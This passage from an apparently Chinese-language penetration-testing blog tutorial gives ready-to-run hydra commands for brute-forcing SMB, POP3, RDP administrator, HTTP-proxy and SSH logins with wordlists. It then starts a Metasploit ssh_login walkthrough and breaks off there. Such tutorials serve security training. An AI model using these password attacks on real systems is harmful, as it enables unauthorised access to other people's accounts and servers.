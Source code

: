 (8)、破解smb：
hydra -L 用户名字典 -P pass.txt 10.36.16.18 smb

(9)、破解pop3：
hydra -l muts -P pass.txt my.pop3.mail pop3

(10)、破解rdp：
hydra ip rdp -l administrator -P pass.txt -V

(11)、破解http-proxy：
hydra -l admin -P pass.txt http-proxy://10.36.16.18
</code></pre>



<p>了解了详细命令继续进行破解</p>



<p> Kali中自带暴力破解字典，在/usr/share/wordlists/目录下 <br>操作命令：<br>hydra -L  /usr/share/wordlists/ssh_username.txt -P  /usr/share/wordlists/ ssh_password.txt -t 1 -vV -e ns 192.168.2.45 ssh </p>



<p>我这里用的个人爆破字典，推荐使用自定义的爆破字典，高效</p>



<p>破解成功如下图，这里只是演示所以结果很快</p>



<figure class="wp-block-image"><img src="http://www.shookm.com/wp-content/uploads/2020/01/image-7-1024x510.png" alt="" class="wp-image-392"/></figure>



<p>2、 使用Metasploit工具集中的小插件暴破SSH服务登录口令 </p>



<p> 第一步，开启Metasploit，我这里也是kali内置</p>



<figure class="wp-block-image"><img src="http://www.shookm.com/wp-content/uploads/2020/01/image-8-1024x510.png" alt="" class="wp-image-393"/></figure>



<p>运行如图</p>



<figure class="wp-block-image"><img src="http://www.shookm.com/wp-content/uploads/2020/01/image-9-1024x510.png" alt="" class="wp-image-394"/></figure>



<p> 输入： search ssh ,查看与SSH相关的攻击模块 ，我们找到auxiliary/scanner/ssh/ssh_login  模块</p>



<p></p>



<figure class="wp-block-image"><img src="http://www.shookm.com/wp-content/uploads/2020/01/image-10-1024x510.png" alt="" class="wp-image-395"/></figure>



<p> 在msf命令后界面输入 ：use auxiliary/scanner/ssh/ssh_login  ，调用SSH攻击模块 </p>
